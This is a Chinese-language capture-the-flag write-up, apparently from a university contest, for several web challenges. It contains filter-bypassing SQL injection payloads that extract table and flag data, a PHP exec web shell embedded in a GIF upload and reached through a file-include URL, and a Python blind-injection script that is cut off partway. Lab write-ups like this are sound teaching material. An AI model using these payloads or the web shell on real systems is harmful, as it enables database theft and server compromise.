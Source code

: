 很基础的过滤，过滤了空格和等于号，union没有过滤，联合查询直接一把梭了。

数据库名：

```http
username=1&password=1'/**/union/**/select/**/1,database()#
```

> cumtctf

表名列名一起爆：

```http
username=1&password=1'/**/union/**/select/**/table_name,column_name/**/from/**/information_schema.columns/**/where/**/!(table_schema<>'cumtctf')/**/limit/**/5,1#
```

> Table Name: flag_table_1 Column Name: flag

这里可以稍微注意下，由于过滤了等于号以及 like，所以可以用  !(sourceData<>cmpData)  这种来绕过,regexp 也可以，这里也给出 regexp 的利用方式：

```http
username=1&password=1'/**/union/**/select/**/table_name,column_name/**/from/**/information_schema.columns/**/where/**/table_schema/**/regexp/**/'cumtctf'/**/limit/**/5,1#
```

出 flag:

```http
username=1&password=1'union/**/select/**/flag,fake/**/from/**/flag_table_1/**/limit/**/0,1#
```

### ez_upload

自己做一张 GIF，注意别破坏文件完整性(GIF 不要改变文件的长度，然后替换数据块就行)，然后上传到服务器，下载下来被处理过的 GIF，使用 010Editor，在文件中加入脚本如下：

```php
<?php echo exec('cat /flag');?>
```

整体二进制：

![image-20211007190027876](image-20211007190027876.png)

![image-20211007190137047](image-20211007190137047.png)

附 URL：

```http
219.219.61.234:7777/?file=upload/998983755.gif
```

### web4-sqli

比较简单的一个盲注，上脚本再解释：

```python
import requests

url = "http://81.69.241.44:25500/index.php"

i = 0
table_name = ""
result = ""
while True:
    i += 1
    for char in range(32, 128):
        # 爆表名
        # payload = f"1'or/**/lpad((select/**/group_concat(distinct/**/table_name)/**/from/**/information_schema.columns/**/where/**/table_schema/**/regexp/**/'cumtctf'),{i},1)>/**/0x{table_name}{hex(char)[2:]}#"
        # 爆列明
```